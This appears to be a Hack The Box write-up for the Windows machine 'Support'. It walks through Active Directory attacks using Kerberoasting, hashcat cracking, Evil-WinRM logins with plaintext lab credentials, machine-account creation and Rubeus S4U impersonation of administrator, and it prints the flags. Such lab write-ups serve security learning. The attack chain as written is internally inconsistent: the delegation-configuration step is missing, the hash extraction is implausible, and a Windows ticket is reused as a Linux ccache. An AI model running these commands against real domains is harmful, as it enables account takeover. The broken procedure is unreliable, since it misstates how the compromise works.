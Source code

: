 # 🧪 Machine Name: `Support`

**Platform:** Hack The Box  
**IP Address:** `10.129.230.181`  
**Difficulty:** Easy  
**Author:** ARZ101  

---

## 🧭 Overview

Support is an Easy-level Windows machine focusing on Active Directory enumeration and abuse. The foothold involves Kerberos and LDAP enumeration followed by abusing Service Principal Names (SPNs), MachineAccountQuota, and S4U delegation for privilege escalation to Administrator.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -sC -sV -oN nmap.txt 10.129.230.181
```

- Ports 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, and 3389 open (standard for a Domain Controller).

---

## 🚪 LDAP + Kerberos Enumeration

### Kerberos Pre-Auth Check

```bash
GetNPUsers.py support.htb/ -no-pass -usersfile users.txt -dc-ip 10.129.230.181
```

- No AS-REP roasting candidates found.

### LDAP Enumeration

```bash
windapsearch-linux-amd64 -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --dc 10.129.230.181 users
```

- Found SPNs using `GetUserSPNs.py`.

---

## 💥 Exploitation

### Kerberoasting

```bash
GetUserSPNs.py support.htb/ldap:'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -dc-ip 10.129.230.181 -request
```

- Crack SPN hash:

```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

- Found credentials for user: `support : Ironside47pleasure40Watchful`

---

## 🪟 Foothold: Evil-WinRM

```bash
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```

---

## 🧠 Privilege Escalation

### Machine Account Abuse

- Add a new machine account (if MachineAccountQuota > 0):

```powershell
New-MachineAccount -MachineAccount UwU -Password (ConvertTo-SecureString '123456' -AsPlainText -Force)
```

- Extract RC4 hash:

```bash
impacket-secretsdump support/ldap@support.htb -hashes :<ntlm> -just-dc-user UwU$
```

- Abuse S4U with Rubeus:

```bash
Rubeus.exe s4u /user:UwU$ /password:123456 /domain:support.htb /impersonateuser:administrator /rc4:<NTLM> /msdsspn:host/dc.support.htb /nowrap
```

- Inject ticket with Mimikatz or Rubeus.

---

## 🏁 Privilege Escalation: Administrator Shell

- Use the forged TGS to get an Administrator shell via Evil-WinRM:

```bash
export KRB5CCNAME=~/UwU.ccache
evil-winrm -i support.htb -u administrator -k
```

---

## 🧾 Flags

- `user.txt`: `d7e3ad265a337cb48fd74fd3e6f346cd`
- `root.txt`: `8bcdfd59f348a37e9457649bdc554c77`

---

## 🧠 Lessons Learned

- Kerberoasting and SPN abuse are critical AD foothold techniques.
- MachineAccountQuota allows low-priv users to escalate via S4U delegation.
- Tools like `Rubeus` and `impacket` are essential for advanced AD attacks.

---

![Proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/support.png)